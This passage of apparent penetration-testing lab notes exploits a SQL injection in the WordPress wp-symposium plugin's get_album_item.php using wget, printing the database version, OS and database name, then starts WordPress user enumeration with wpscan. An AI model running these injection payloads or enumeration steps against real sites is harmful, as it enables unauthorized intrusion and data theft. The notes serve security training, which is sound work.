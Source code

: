 `wget 'https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--' -O ./sqli_output.txt`:
```
--2024-12-06 12:02:31--  https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--
Resolving 782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com (782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com)... 172.104.135.113
Connecting to 782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com (782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com)|172.104.135.113|:443... connected.
^[[AHTTP request sent, awaiting response... 200 OK
Length: 23 [image/jpeg]
Saving to: ‘./sqli_output.txt’

./sqli_output.txt                               100%[====================================================================================================>]      23  --.-KB/s    in 0s      

2024-12-06 12:02:32 (34.7 MB/s) - ‘./sqli_output.txt’ saved [23/23]
```

`cat ./sqli_output.txt`:
```
5.5.47-0ubuntu0.14.04.1🚩
```

`wget -q 'https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/get_album_item.php?size=%40%40version_compile_os%3B--' -O ./sqli_output.txt && cat ./sqli_output.txt`
```
debian-linux-gnu
```

`wget -q 'https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/get_album_item.php?size=database%28%29%3B--' -O ./sqli_output.txt && cat ./sqli_output.txt`:
```
wordpress
```

---

## Authentication Attacks

### WordPress Authentication Brute-Force Attacks (with Burp Suite)

#### Lab Solution

`wpscan --url https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/ --enumerate u`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[...]

[+] Enumerating Users (via Passive and Aggressive Methods)📌
```